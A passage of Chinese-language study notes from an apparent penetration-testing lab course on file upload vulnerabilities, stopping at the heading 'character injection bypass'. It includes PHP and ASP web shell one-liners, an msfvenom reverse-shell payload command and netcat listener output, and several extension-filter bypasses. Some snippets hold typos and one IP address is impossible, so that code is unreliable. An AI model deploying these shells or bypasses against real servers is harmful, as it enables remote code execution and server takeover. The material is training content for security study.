# 简介

* [ ] 练习： 尝试运行上述扫描来找出允许的内容类型。
* [ ] 练习： 尝试运行上述扫描来找出允许的内容类型。

文件上传漏洞是 Web 和移动应用程序中最常见的漏洞之一，这一点从最新的 [CVE 报告](https://www.cvedetails.com/vulnerability-list/cweid-434/vulnerabilities.html)中可以看出。我们还会注意到，大多数此类漏洞的评级为 High 或 Critical ，这表明不安全的文件上传会带来很高的风险。

## 文件上传攻击的类型

文件上传漏洞最常见的原因是文件验证和校验机制薄弱，这些机制可能无法有效阻止恶意文件类型的攻击，甚至可能完全缺失。最糟糕的文件上传漏洞是 **未经身份验证的任意文件上传unauthenticated arbitrary file upload 漏洞**。利用此类漏洞，网络应用程序允许任何未经身份验证的用户上传任何类型的文件，距离允许任何用户在后端服务器上执行代码仅一步之遥。

许多网站开发者会采用各种测试方法来验证上传文件的扩展名或内容。然而，正如我们将在本模块中看到的，如果这些过滤器不够安全，我们或许能够绕过它们，仍然可以获取任意文件并执行攻击。

任意文件上传造成的最常见且最严重的攻击是通过上传 Web Shell 或上传发送反向 Shell 的脚本，通过后端服务器发起 **远程命令执行remote command execution 攻击**。正如我们将在下一节中讨论的那样，Web Shell 允许我们执行我们指定的任何命令，并且可以转换为交互式 Shell，从而轻松枚举系统并进一步利用网络漏洞。此外，我们还可以上传一个脚本，将反向 Shell 发送到我们计算机上的监听器，然后通过这种方式与远程服务器进行交互。

在某些情况下，我们可能无法上传任意文件，而只能上传特定类型的文件。即使在这种情况下，如果 Web 应用程序缺少某些安全保护措施，我们仍然可以发起各种攻击来利用文件上传功能。

这些攻击的例子包括：

* 引入其他漏洞，例如 XSS 或 XXE
* 对后端服务器造成 Denial of Service (DoS) 攻击。
* 覆盖关键系统文件和配置。

最后，文件上传漏洞不仅是由于编写不安全的函数造成的，也常常是由于使用了可能容易受到此类攻击的过时库造成的。在本模块的最后，我们将介绍各种技巧和实践，以保护我们的 Web 应用程序免受最常见的文件上传攻击，此外，我们还将提出一些建议，以防止我们可能忽略的文件上传漏洞。

## Web 服务器如何处理静态文件请求？

在学习如何利用文件上传漏洞之前，你需要先基本了解服务器是如何处理静态文件请求的，这一点很重要。
过去，网站几乎完全由静态文件构成，用户请求时服务器就会将这些文件返回。因此，每个请求的路径都能与服务器文件系统中的目录和文件层级一一对应。如今，网站的动态化程度越来越高，请求路径往往与文件系统没有任何直接关联。尽管如此，Web 服务器仍然需要处理部分静态文件请求，例如样式表、图片等。
服务器处理这些静态文件的流程大体上保持不变：

* 服务器会解析请求中的路径，识别出文件扩展名。
  然后通过比对预配置的「扩展名与 MIME 类型映射表」，判断所请求文件的类型。
  后续如何处理，则取决于文件类型与服务器配置。
* 如果文件不可执行（如图片、静态 HTML 页面），服务器通常会直接将文件内容以 HTTP 响应返回给客户端。
  如果文件可执行（如 PHP 文件），且服务器已配置执行该类文件，则会先根据 HTTP 请求头和参数赋值，再运行脚本，最后将执行结果以 HTTP 响应返回给客户端。
  如果文件可执行，但服务器未配置执行该类文件，通常会返回错误。不过在某些情况下，文件内容仍可能以纯文本形式返回给客户端。这类配置错误有时可被利用，从而泄露源代码及其他敏感信息。在我们的信息泄露学习资料中，你可以看到相关示例。

> HTTP 响应头中的 Content-Type 字段，可能会泄露服务器对所返回文件类型的判断依据。如果这个响应头没有被应用代码显式设置（即开发者没手动指定），那么它的值通常就来自「文件扩展名 ↔ MIME 类型」的预配置映射表。

# 基本漏洞利用

## 任意文件上传漏洞

最基础的文件上传漏洞，出现在 Web 应用对上传文件完全不做任何校验和过滤时，默认允许上传任意类型的文件。
在这类存在漏洞的应用中，我们可以直接上传自己的 Web 木马（WebShell） 或反弹 Shell 脚本。
然后，只需要访问这个上传后的脚本文件，就能与 WebShell 交互，或者触发反弹连接拿到服务器权限。

> Web Shell 是一种恶意脚本，攻击者只需向正确的端点发送 HTTP 请求即可在远程 Web 服务器上执行任意命令。

如果你能够成功上传 Web Shell，那么你实际上就完全控制了服务器。这意味着你可以读写任意文件、窃取敏感数据，甚至可以利用该服务器对内部基础设施和网络外部的其他服务器发起攻击。

如下的案例:

我们将看到一个 Employee File Manager 网络应用程序，它允许我们将个人文件上传到该网络应用程序：



该网页应用程序没有提及允许的文件类型，我们可以拖放任何文件，其名称都会显示在上传表单中，包括 .php 文件：



此外，如果我们点击表单选择文件，文件选择对话框没有指定任何文件类型，而是显示 All Files ”，这也可能表明该 Web 应用程序没有指定任何类型的限制或约束：



所有这些都表明，该程序在前端似乎没有任何文件类型限制，如果后端没有指定任何限制，我们或许可以将任意文件类型上传到后端服务器，从而完全控制它。

### 识别 Web 框架

我们需要上传一段恶意脚本，以测试是否可以向后端服务器上传任何类型的文件，并测试是否可以利用此漏洞攻击后端服务器。许多类型的脚本都可以通过任意文件上传来帮助我们攻击 Web 应用程序，最常见的是 `Web Shell 脚本`和 `Reverse Shell 脚本`。

Web Shell 提供了一种与后端服务器交互的简便方法，它接受 shell 命令并将输出结果显示在 Web 浏览器中。Web Shell 必须使用与 Web 服务器相同的编程语言编写，因为它运行特定于平台的函数和命令来执行后端服务器上的系统命令，这使得 Web Shell 成为非跨平台脚本。因此，第一步是确定 Web 应用程序使用的编程语言。

这通常比较简单，因为我们通常可以在 URL 中看到网页扩展名，这可以揭示运行 Web 应用程序的编程语言。然而，在某些 Web 框架和 Web 语言中，使用 Web Routes 将 URL 映射到网页，在这种情况下，网页扩展名可能不会显示。此外，文件上传的攻击方式也会有所不同，因为我们上传的文件可能无法直接路由或访问。

一种判断 Web 应用使用哪种语言运行的简单方法是访问 `/index.ext` 页面，我们将其中的 ext 替换成各种常见的网页后缀，如 `php`、`asp`、aspx 等，查看是否存在对应的页面。

例如，当我们访问下面的练习时，会看到它的 URL 为 http://SERVER_IP:PORT/ ，因为 index 通常默认是隐藏的。但是，如果我们尝试访问 http://SERVER_IP:PORT/index.php ，会看到相同的页面，这意味着这确实是一个 PHP Web 应用程序。当然，我们不需要手动操作，因为我们可以使用像 Burp Intruder 这样的工具，通过 [Web Extensions 字典](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)对文件扩展名进行模糊测试，我们将在后续章节中看到这一点。不过，这种方法并非总是准确的，因为 Web 应用程序可能不使用首页，或者可能使用多个 Web 扩展名。

其他一些技术也可能有助于识别运行 Web 应用程序的技术，例如使用[ Wappalyzer 扩展程序](https://www.wappalyzer.com/)，该扩展程序适用于所有主流浏览器。添加到浏览器后，我们可以点击其图标来查看运行 Web 应用程序的所有技术：



正如我们所见，该扩展程序不仅告诉我们该 Web 应用程序运行在 PHP 上，还识别出了 Web 服务器的类型和版本、后端操作系统以及其他使用的技术。这些扩展程序对于 Web 渗透测试人员来说至关重要，不过，了解其他手动识别 Web 框架的方法（例如我们之前讨论的方法）总是更好的选择。

我们还可以运行 Web 扫描器来识别 Web 框架，例如 Burp/ZAP 扫描器或其他 Web 漏洞评估工具。最终，一旦我们确定了 Web 应用程序使用的编程语言，我们就可以上传用相同语言编写的恶意脚本来利用该 Web 应用程序的漏洞，从而远程控制后端服务器。

### 漏洞识别

现在我们已经确定了运行 Web 应用程序的 Web 框架及其编程语言，接下来可以测试是否可以上传具有相同扩展名的文件。作为初步测试，为了确定是否可以上传任意 PHP 文件，我们创建一个简单的 Hello World 脚本来测试是否能够使用上传的文件执行 PHP 代码。

为此，我们将向 test.php 中写入

```
<?php echo "Hello";?>
```

并尝试将其上传到 Web 应用程序：



文件似乎已成功上传，因为我们收到一条消息 File successfully uploaded ，这意味着 the web application has no file validation whatsoever on the back-end 。现在，我们可以点击 Download 按钮，Web 应用程序会将我们带到已上传的文件页面：

我们可以看到，页面打印出了我们的 Hello 消息，这意味着 `echo `函数已执行并打印了我们的字符串，我们成功地在后端服务器上执行了 PHP 代码。

### 练习:

尝试上传一个 PHP 脚本，该脚本在后端服务器上执行 (hostname) 命令

```php
<?php gethostname();?>
```

## 上传漏洞利用程序

利用此 Web 应用程序的最后一步是上传与该 Web 应用程序使用相同语言编写的恶意脚本，例如 Web Shell 或反向 Shell 脚本。一旦我们上传了恶意脚本并访问其链接，我们就能够与其交互，从而控制后端服务器。

### 优秀的webshell

我们可以在网上找到许多优秀的 Web Shell，它们提供了诸如目录遍历或文件传输等实用功能。对于 PHP 来说， [phpbash](https://github.com/Arrexel/phpbash) 是一个不错的选择，它提供了一个类似终端的半交互式 Web Shell。此外， [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) 还提供了大量适用于不同框架和语言的 Web Shell。

我们可以下载适用于我们 Web 应用程序语言（在本例中为 PHP ）的任何一个 Web Shell，然后通过存在漏洞的上传功能将其上传，并访问上传的文件来与 Web Shell 进行交互。例如，让我们尝试将 [phpbash]([phpbash](https://github.com/Arrexel/phpbash))中的 phpbash.php 上传到我们的 Web 应用程序，然后点击“下载”按钮访问其链接：



如我们所见，这个 Web Shell 提供了类似终端的体验，这使得枚举后端服务器以进行进一步攻击变得非常容易。不妨试试 SecLists 上的其他几个 Web Shell，看看哪个最符合你的需求。

### 编写自定义 Web Shell

虽然使用在线资源提供的 Web Shell 可以提供很好的体验，但我们也应该知道如何手动编写一个简单的 Web Shell。这是因为在某些渗透测试中，我们可能无法访问在线工具，因此我们需要能够在需要时创建 Web Shell。

例如，对于 PHP Web 应用程序，我们可以使用 `system()`函数来执行系统命令并打印其输出，并通过 `$_REQUEST['cmd'] `向其传递 cmd 参数，如下所示：

```php
<?php system($__REQUEST['cmd]);?>
```

如果我们将上述脚本写入 shell.php 并将其上传到我们的 Web 应用程序，我们就可以使用 ?cmd= GET 参数（例如 ?cmd=id ）执行系统命令，如下所示：



> 提示： 如果我们在浏览器中使用此自定义 Web Shell，最好按 [CTRL+U] 使用源代码视图，因为源代码视图会显示命令输出，就像在终端中显示的那样，没有任何 HTML 渲染，这不会影响输出的格式。

Web shell 并非 PHP 独有，其他 Web 框架也同样适用，唯一的区别在于执行系统命令所使用的函数。对于 .NET Web 应用程序，我们可以使用 `request('cmd') `将 cmd 参数传递给 `eval()`函数，它应该执行 ?cmd= 中指定的命令并打印其输出，如下所示

```asp
<% eval request('cmd') %>
```

我们可以在网上找到各种各样的 Web Shell，其中许多都易于记忆，可用于 Web 渗透测试。需要注意的是 在很多情况下,webshell可能不能工作 。这可能是由于 Web 服务器阻止了 Web Shell 使用的某些函数（例如 `system() `），或者由于 Web 应用程序防火墙等原因造成的。在这些情况下，我们可能需要使用高级技术来绕过这些安全措施

### Reverse Shell

最后，我们来看看如何利用存在漏洞的上传功能获取反向 shell。首先，我们需要下载一个用 Web 应用程序所用语言编写的反向 shell 脚本。一个可靠的 PHP 反向 shell 脚本是 [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) PHP reverse shell。此外，我们之前提到的 [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) 也包含各种语言和 Web 框架的反向 shell 脚本，我们可以利用其中任何一个来获取反向 shell。

让我们下载上面提到的反向 shell 脚本之一，例如 pentestmonkey ，然后用文本编辑器打开它，输入我们的 IP 和监听 PORT ，脚本将连接到该端口。对于 pentestmonkey 脚本，我们可以修改第 49 行和 50 行，并输入我们机器的 IP 地址/端口：

```php
$ip = 'OUR_IP';     // CHANGE THIS
$port = OUR_PORT;   // CHANGE THIS
```

接下来，我们可以在机器上启动一个 netcat 监听器（使用上述端口），将脚本上传到 Web 应用程序，然后访问其链接来执行脚本并获得反向 shell 连接：

```shell
$ nc -lvnp OUR_PORT
listening on [any] OUR_PORT ...
connect to [OUR_IP] from (UNKNOWN) [188.166.173.208] 35232
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

正如我们所见，我们已成功从托管存在漏洞的 Web 应用程序的后端服务器收到连接，这使我们能够与其交互，从而进行进一步的攻击。同样的原理也适用于其他 Web 框架和语言，唯一的区别在于我们使用的反向 shell 脚本。

### 生成自定义反向 Shell 脚本

和 WebShell 一样，我们也可以编写自定义的反弹 Shell（reverse shell）脚本。虽然可以沿用之前的系统函数（php的system 函数），并向其传入反弹 Shell 命令来实现，但这种方式并非始终可靠—— 就像其他任何反弹 Shell 命令一样，这个命令也可能因多种原因执行失败。

这也是为什么优先使用 Web 框架核心功能(指利用编程语言原生 / 框架内置的网络通信能力，而非依赖系统命令，如 PHP 的 fsockopen()/socket_create() 等套接字函数)来连接到我们的攻击机始终是更佳选择。不过，这种方法可能不像 WebShell 脚本那样容易记忆。好在诸如 `msfvenom `之类的工具能够生成多种语言的反弹 Shell 脚本，甚至还会尝试绕过已部署的某些限制措施。针对 PHP 语言，我们可以按以下方式操作：

```shelll
$ msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
...SNIP...
Payload size: 3033 bytes
```

一旦生成 ` reverse.php` 脚本，我们就可以再次在上面指定的端口上启动 netcat 监听器，上传 reverse.php 脚本并访问其链接，我们应该也能获得一个反向 shell：

```shell
$ nc -lvnp OUR_PORT
listening on [any] OUR_PORT ...
connect to [OUR_IP] from (UNKNOWN) [181.151.182.286] 56232
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

类似地，我们可以为多种语言生成反向 shell 脚本。我们可以使用 -p 标志添加多个反向 shell 有效载荷，并使用 -f 标志指定输出语言。

虽然反向 shell 始终优于 Web shell，因为它提供了控制被入侵服务器最具交互性的方法，但反向 shell 并非总是有效，我们有时不得不依赖 Web shell。这可能是由于多种原因造成的，例如后端网络上的防火墙阻止了出站连接，或者 Web 服务器禁用了与我们建立连接所需的必要功能。

### 练习

尝试利用上传功能上传一个 Web Shell，并获取 /flag.txt 的内容。

```php
<?php echo get_file_contents('文件路径');?>
```

# 绕过过滤器

在现实中，你不太可能找到像我们在上一个实验中看到的那样，完全没有针对文件上传攻击的防护措施的网站。但仅仅因为有防御措施，并不意味着它们就足够强大。有时，你仍然可以利用这些机制中的漏洞来获取用于远程代码执行的 Web Shell。

## 客户端验证

许多 Web 应用程序仅依赖前端 JavaScript 代码来验证所选文件格式，然后再上传文件，如果文件不是所需的格式（例如，不是图像），则不会上传该文件。

然而，由于文件格式验证是在客户端进行的，我们可以通过直接与服务器交互轻松绕过它，完全跳过前端验证。我们还可以通过浏览器的开发者工具修改前端代码，禁用所有验证。

本节练习展示了基本的 Profile Image 功能，这种功能常见于利用用户个人资料功能的 Web 应用程序中，例如社交媒体 Web 应用程序：

然而，这一次，当我们弹出文件选择对话框时，我们看不到我们的 PHP 脚本（或者它可能显示为灰色），因为该对话框似乎仅限于图像格式：



我们仍然可以选择 All Files 选项来选择我们的 PHP 脚本，但是这样做时，我们会收到一条错误消息，提示（ Only images are allowed! ），并且 Upload 按钮会被禁用：



这表明存在某种文件类型验证机制，因此我们不能像上一节那样直接通过上传表单上传 Web Shell。幸运的是，所有验证似乎都在前端进行，**因为选择文件后页面不会刷新或发送任何 HTTP 请求。**所以，我们应该能够完全控制这些客户端验证。

任何在客户端运行的代码都由我们控制。虽然 Web 服务器负责发送前端代码，但前端代码的渲染和执行是在我们的浏览器中完成的。如果 Web 应用程序在后端没有应用任何验证，我们应该能够上传任何类型的文件。

正如前面所提到的，要绕过这些防护机制，我们既可以**修改向后端服务器发送的上传请求**，也可以**篡改前端代码来禁用这些类型校验**。

### 修改请求

我们先通过 Burp 查看一个普通的请求。当我们选择一张图片时，可以看到它会显示为我们的个人资料图片；当我们点击 Upload 按钮时，个人资料图片会更新，并且在页面刷新后仍然保持不变。这表明我们的图片已经上传到服务器，服务器现在正在向我们显示它：



如果我们使用 Burp 捕获上传请求，我们会看到 Web 应用程序发送以下请求：



该 Web 应用程序似乎正在向 /upload.php 发送标准的 HTTP 上传请求。这样，我们现在可以修改此请求以满足我们的需求，而无需考虑前端的类型验证限制。如果后端服务器不验证上传的文件类型，那么理论上我们应该能够发送任何文件类型/内容，并且它都会被上传到服务器。

请求中两个重要的部分是 filename="HTB.png" 和请求末尾的文件内容。如果我们把 filename 改成 shell.php ，把内容改成上一节中使用的 Web Shell，那么我们上传的就不是一个图像文件，而是一个 PHP Web Shell。

因此，让我们捕获另一个图像上传请求，然后进行相应的修改：



> 注意： 我们可能还会修改上传文件的 Content-Type ，但这在现阶段应该不会起到重要作用，所以我们将保持其不变。

正如我们所见，上传请求已成功发出，响应中也收到了 File successfully uploaded 。因此，我们现在可以访问已上传的文件并对其进行交互，从而实现远程代码执行。

### 禁用前端验证

绕过客户端验证的另一种方法是通过修改前端代码。由于这些功能完全在我们的浏览器内部处理，我们可以完全控制它们。因此，我们可以修改这些脚本或将其完全禁用。这样，我们就可以使用上传功能上传任何类型的文件，而无需使用 Burp 来捕获和修改请求。

首先，我们可以按 ` CTRL+SHIFT+C` 打开浏览器的 `Page Inspector `，然后点击个人资料图片，即可触发上传表单的文件选择器：

高亮显示第 18 行的以下 HTML 文件输入控件：

```html
<input type="file" name="uploadFile" id="uploadFile" onchange="checkFile(this)" accept=".jpg,.jpeg,.png">
```

这里可以看到，文件输入框在文件选择对话框中指定了允许的文件类型为 ( .jpg,.jpeg,.png )。但是，我们可以轻松地修改此设置，像之前一样选择 All Files ，因此无需更改页面上的这部分内容。

更有意思的是 ` onchange="checkFile(this)"` ，它似乎会在我们选择文件时运行一段 JavaScript 代码，这段代码似乎用于进行文件类型验证。要获取此函数的详细信息，我们可以按 `CTRL+SHIFT+K `打开浏览器的 Console ，然后输入函数名（ checkFile ）来查看其详细信息：\

```javascript
javascript
function checkFile(File) {
...SNIP...
    if (extension !== 'jpg' && extension !== 'jpeg' && extension !== 'png') {
        $('#error_message').text("Only images are allowed!");
        File.form.reset();
        $("#submit").attr("disabled", true);
    ...SNIP...
    }
}
```

这个函数的关键在于它会检查文件扩展名是否为图像，如果不是，则会打印之前看到的错误信息（ Only images are allowed! ）并禁用 Upload 按钮。我们可以将 PHP 添加为允许的扩展名之一，或者修改函数以移除扩展名检查。

幸运的是，我们不需要编写和修改 JavaScript 代码。我们可以从 HTML 代码中移除这个函数，因为它的主要用途似乎是文件类型验证，移除它应该不会造成任何问题。为此，我们可以返回检查器，再次单击个人资料图片，双击第 18 行的函数名称（ checkFile ），然后将其删除：

> 提示： 您也可以执行相同的操作来删除 accept=".jpg,.jpeg,.png" ，这样可以在文件选择对话框中更轻松地选择 PHP shell，但正如前面提到的，这不是强制性的。

从文件输入中移除 `checkFile` 函数后，我们应该能够通过文件选择对话框选择我们的 PHP web shell，并像上一节中那样正常上传，而无需任何验证。

> 从文件输入中移除 checkFile 函数后，我们应该能够通过文件选择对话框选择我们的 PHP web shell，并像上一节中那样正常上传，而无需任何验证。

使用上述任一方法上传 Web Shell 后，刷新页面，即可再次使用 Page Inspector 快捷键： CTRL+SHIFT+C ，点击头像，即可看到已上传 Web Shell 的 URL：

```html

```

如果我们点击上面的链接，就能进入我们上传的 Web Shell，通过它我们可以对后端服务器执行命令：



> 文中演示的步骤适用于火狐（Firefox）浏览器，其他浏览器在对源码应用本地修改时的操作方式可能略有不同，例如谷歌浏览器（Chrome）中会使用覆盖（overrides）功能。「覆盖功能」能让你的修改持久化：把服务器的前端文件保存到本地，修改后，每次刷新页面，浏览器都会加载你本地改好的版本，而非服务器的原版 —— 这对于绕过前端文件类型校验、测试漏洞来说非常实用。

### 练习

尝试绕过上述练习中的客户端文件类型验证，然后上传一个 Web Shell 来读取 /flag.txt 文件（为了更好地练习，请尝试两种绕过方法）。

```html
<form action="upload.php" method="POST" enctype="multipart/form-data" id="uploadForm" onsubmit="if(validate()){upload()}">
        <input type="file" name="uploadFile" id="uploadFile" onchange="showImage()" accept=".jpg,.jpeg,.png">
        
        <input type="submit" value="Upload" id="submit">
      </form>
      <br>
      <h2 id="error_message"></h2>
```

这里有个判断函数 `if(validate()){upload()}`

```
function validate() {
  var file = $("#uploadFile")[0].files[0];
  var filename = file.name;
  var extension = filename.split('.').pop();

  if (extension !== 'jpg' && extension !== 'jpeg' && extension !== 'png') {
    $('#error_message').text("Only images are allowed!");
    File.form.reset();
    $("#submit").attr("disabled", true);
    return false;
  } else {
    return true;
  }
}
function upload() {
  var fd = new FormData();
  var files = $('#uploadFile')[0].files[0];
  fd.append('uploadFile', files);

  $.ajax({
    url: 'upload.php',
    type: 'post',
    data: fd,
    contentType: false,
    processData: false,
    success: function () {
      window.location.reload();
    },
  });
}
```

使用burp拦截请求

```http
POST /upload.php HTTP/1.1
Host: 154.57.164.64:30210
Content-Length: 733
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTVbAM2aJoPOG7cT1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Origin: http://154.57.164.64:30210
Referer: http://154.57.164.64:30210/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundaryTVbAM2aJoPOG7cT1
Content-Disposition: form-data; name="uploadFile"; filename="python.jpg"
Content-Type: image/jpeg

ÿØÿà
ÿÛ
------WebKitFormBoundaryTVbAM2aJoPOG7cT1--
```

## 服务器验证

在上一节中，我们看到了一个仅在前端（即客户端）应用类型验证控制的 Web 应用程序示例，这使得绕过这些控制变得轻而易举。因此，始终建议在后端服务器上实现所有安全相关的控制措施，攻击者无法直接操纵后端服务器。

但是，如果后端服务器上的类型验证控制没有得到安全编码，攻击者可以利用多种技术绕过它们并访问 PHP 文件上传功能。

后端验证文件扩展名通常有两种常见方法：

* 针对类型黑名单进行测试
* 针对类型白名单进行测试

此外，该校验机制还可能会检查文件类型或文件内容，以验证其是否与指定类型匹配。在这些校验方式中，安全性最弱的一种是：将文件扩展名与扩展名黑名单进行比对，以此判定是否应拦截该上传请求。例如，以下代码片段会检查上传文件的扩展名是否为 PHP，若是则直接拒绝该请求：

```php
$fileName = basename($_FILES["uploadFile"]["name"]);
$extension = pathinfo($fileName, PATHINFO_EXTENSION);
$blacklist = array('php', 'php7', 'phps');

if (in_array($extension, $blacklist)) {
    echo "File type not allowed";
    die();
}
```

这段代码会从上传的文件名（ $$extension ），然后将其与黑名单扩展名列表（ $blacklist ）进行比较。然而，这种验证方法存在一个重大缺陷：它并不全面，因为许多其他扩展名并未包含在黑名单中，如果上传这些扩展名的文件，仍然可能被用于在后端服务器上执行 PHP 代码。

### 扩展名大小写绕过

上述比较区分大小写，并且仅考虑小写扩展名。在 Windows 服务器上，文件名不区分大小写，因此我们可以尝试上传一个混合大小写的 php （例如 pHp ），这或许也能绕过黑名单，并且应该仍然可以作为 PHP 脚本执行。

### 黑名单扩展名绕过

首先尝试上一节中学到的客户端绕过方法之一，将 PHP 脚本上传到后端服务器。我们将使用 Burp 拦截图片上传请求，将文件内容和文件名替换为我们的 PHP 脚本，然后转发请求：

正如我们所见，这次攻击并未成功，我们收到了 Extension not allowed 信息。这表明，除了前端验证之外，该 Web 应用程序的后端可能还存在某种形式的文件类型验证。

#### 模糊测试扩展名

由于该 Web 应用程序似乎正在测试文件扩展名，我们的第一步是使用一系列可能的扩展名对上传功能进行模糊测试，看看哪些扩展名会返回之前的错误信息。任何未返回错误信息、返回不同信息或成功上传文件的上传请求，都可能表明该文件扩展名是允许的。

在模糊测试中 PayloadsAllTheThings 我们可以利用许多扩展列表。PayloadsAllTheThings 提供了 [PHP](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) 和 [.NET](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP) Web 应用程序的扩展列表。我们还可以使用 SecLists 提供的常用 [Web 扩展列表](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)。

我们可以使用上述任何列表进行模糊测试。由于我们正在测试一个 PHP 应用程序，我们将下载并使用上述 PHP 列表。然后，从 Burp History 中，我们可以找到对 /upload.php 最后一次请求，右键单击它，然后选择 Send to Intruder 。在 Positions 选项卡中，我们可以 Clear 任何自动设置的位置，然后选择 filename="HTB.php" 中的 .php 扩展名，并单击 Add 按钮将其添加为模糊测试位置：

我们将保留本次攻击的文件内容，因为我们只对文件扩展名进行模糊测试。最后，我们可以从上方 Load PHP 扩展名列表，并将其加载到 Payloads Payload Options 卡中。我们还会取消勾选 URL Encoding 选项，以避免对文件扩展名前的句点 ( . ) 进行编码。完成这些步骤后，我们可以点击 Start Attack 按钮，开始对未被列入黑名单的文件扩展名进行模糊测试：

我们可以按 Length 对结果进行排序，可以看到所有 Content-Length 为 193 的请求都通过了扩展名验证，因为它们都响应了 File successfully uploaded 。相反，其余请求都响应了 Extension not allowed 的错误信息。

现在，我们可以尝试使用上面列出的**任意**允许的文件扩展名来上传文件，其中某些扩展名可能会让我们**执行 PHP 代码**。并**非所有扩展名在所有 Web 服务器配置下都能生效**，因此我们可能需要**尝试多种扩展名**，才能找到一种可以成功执行 PHP 代码的。

让我们使用 `.phtml`扩展名，PHP Web 服务器通常允许使用该扩展名授予代码执行权限。我们可以右键单击 Intruder 结果中的请求，然后选择 Send to Repeater 。现在，我们只需重复前两节中的操作，将文件名更改为 .phtml 扩展名，并将内容更改为 PHP Web Shell 的内容即可：



正如我们所见，文件似乎确实已上传。最后一步是访问上传的文件，它应该位于图像上传目录（ profile_images ）下，正如我们在上一节中看到的。然后，我们可以测试执行一条命令，该命令应该可以确认我们已成功绕过黑名单并上传了我们的 Web Shell：



### 白名单扩展名绕过

如上一节所述，另一种文件扩展名验证方法是使用 **白名单过滤**。白名单通常比黑名单更安全。网络服务器只会允许指定的扩展名，并且该列表不需要全面涵盖不常见的扩展名。

不过，黑名单和白名单的使用场景有所不同。黑名单适用于需要上传多种文件类型的场景（例如文件管理器），而白名单通常只用于仅允许少数几种文件类型的上传场景。两者也可以结合使用。

让我们从本节末尾的练习开始，尝试上传一个不常见的 PHP 扩展名，例如 .phtml ，看看我们是否还能像上一节那样成功上传：



我们看到一条消息提示 Only images are allowed ，这在 Web 应用中可能比看到被阻止的扩展名类型更常见。然而，错误消息并不总是反映所使用的验证方式，因此让我们像上一节那样，使用之前用过的同一个字典，尝试模糊测试来查找允许的扩展名：

我们可以看到所有 PHP 扩展的变体都被屏蔽了（例如 php5 、 php7 、 phtml ）。然而，我们使用的字典中还包含其他一些未被屏蔽且成功上传的“恶意”扩展。因此，让我们尝试了解这些扩展是如何被上传的，以及在哪些情况下我们可以利用它们在后端服务器上执行 PHP 代码。

以下是文件扩展名白名单测试的示例：

```php
$fileName = basename($_FILES["uploadFile"]["name"]);

if (!preg_match('^.*\.(jpg|jpeg|png|gif)', $fileName)) {
    echo "Only images are allowed";
    die();
}
```

我们看到脚本使用正则表达式（ regex ）来测试文件名是否包含任何白名单中的图像扩展名。问题出在 regex 本身，因为它只检查文件名是否 包含 扩展名，而没有检查文件名是否以扩展名 **结尾** 。许多开发者由于对正则表达式模式理解不足而犯此类错误。

#### 双扩展名绕过

这段代码只测试文件名是否包含图像扩展名；通过正则表达式测试的一个简单方法是使用 Double Extensions 。例如，如果允许使用 .jpg 扩展名，我们可以将其添加到上传的文件名中，并仍然以 .php 结尾（例如 shell.jpg.php ），这样我们应该能够通过白名单测试，同时仍然可以上传一个可以执行 PHP 代码的 PHP 脚本。

> 练习： 尝试使用[此词表](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)对上传表单进行模糊测试，以找出上传表单列入白名单的扩展名。

让我们拦截一个普通的上传请求，将文件名修改为（ shell.jpg.php ），并将其内容修改为 Web Shell：



现在，如果我们访问上传的文件并尝试发送命令，我们可以看到它确实成功执行了系统命令，这意味着我们上传的文件是一个完全可以正常工作的 PHP 脚本：



然而，这种方法并非总是有效，因为有些 Web 应用程序可能使用严格的 regex 模式，如前所述，例如以下示例：

```php
if (!preg_match('/^.*\.(jpg|jpeg|png|gif)$/', $fileName)) { ...SNIP... }
```

这种模式应该只考虑最后一个文件扩展名，因为它使用 ( ^.*\. ) 匹配到最后一个点 ( . ) 之前的所有内容，然后在末尾使用 ( $ ) 仅匹配文件名末尾的扩展名。因此， **上面的攻击方法会失效** 。尽管如此，一些漏洞利用技术或许可以绕过这种模式，但大多数都依赖于错误的配置或过时的系统。

#### 反向双扩展名绕过

在某些情况下，文件上传功能本身可能并不存在漏洞，但 Web 服务器配置可能会导致漏洞。例如，某个组织可能使用一个开源 Web 应用程序，该应用程序具有文件上传功能。即使该文件上传功能使用严格的正则表达式模式，仅匹配文件名中的最后一个扩展名，该组织也可能使用了不安全的 Web 服务器配置。

例如， Apache2 Web 服务器的 /etc/apache2/mods-enabled/php7.4.conf 可能包含以下配置：

```xml
<FilesMatch ".+\.ph(ar|p|tml)">
    SetHandler application/x-httpd-php
</FilesMatch>

```

上述配置用于确定 Web 服务器允许执行哪些文件。它使用正则表达式指定一个白名单，匹配 `.phar `、` .php `和 `.phtml`。但是，如果忘记在正则表达式末尾添加 $ 符号，则可能会出现之前提到的错误。在这种情况下，任何包含上述扩展名的文件都将被允许执行 PHP 代码，即使它没有以 PHP 扩展名结尾。例如，文件名 ( shell.php.jpg ) 应该通过之前的白名单测试，因为它以 ( `.jpg `) 结尾，但由于上述配置错误，它仍然能够执行 PHP 代码，因为它的名称中包含 ( .php )。

> 练习： Web 应用程序可能仍然使用黑名单来拒绝包含 PHP 扩展名的请求。尝试使用[ PHP 字典](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)对上传表单进行模糊测试，以找出上传表单列入黑名单的扩展名。

我们来尝试拦截一个正常的图片上传请求，并使用上面的文件名来通过严格的白名单测试：



现在，我们可以访问上传的文件，并尝试执行命令：



#### 字符注入绕过

